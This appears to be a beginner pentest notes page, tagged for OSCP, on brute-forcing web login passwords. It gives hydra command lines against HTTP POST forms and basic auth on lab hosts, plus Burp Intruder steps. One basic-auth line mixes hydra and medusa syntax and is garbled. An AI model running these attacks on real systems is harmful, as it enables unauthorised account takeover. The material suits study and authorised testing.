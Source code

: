 ```yaml
---
title: "Bruteforce service password"
classes: single
ribbon: LightBlue
categories:
  - notes
tags:
  - beginner
  - pentest
  - recon
  - oscp
  - service
  - password
  - bruteforce
toc: true
hide_title: true
excerpt: ""
---
```


## Web

```
hydra 10.0.0.1 http-post-form “/admin.php:target=auth&mode=login&user=^USER^&password=^PASS^:invalid” -P /usr/share/wordlists/rockyou.txt -l admin
```

### Logins

Use Burp suite.

1. Intecept a login attempt.
2. Right-lick "Send to intruder". Select Sniper if you have nly one field you want to bruteforce. If you for example already know the username. Otherwise select cluster-attack.
3. Select your payload, your wordlist.
4. Click attack.
5. Look for response-length that differs from the rest.​

### HTTP Basic Auth

```
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst sizzle.htb.local http-get /certsrv/medusa -h <IP> -u <username> -P  <passwords.txt> -M  http -m DIR:/path/to/auth -T 10
```

### HTTP - Post Form

```
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst domain.htb  http-post-form "/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V
```
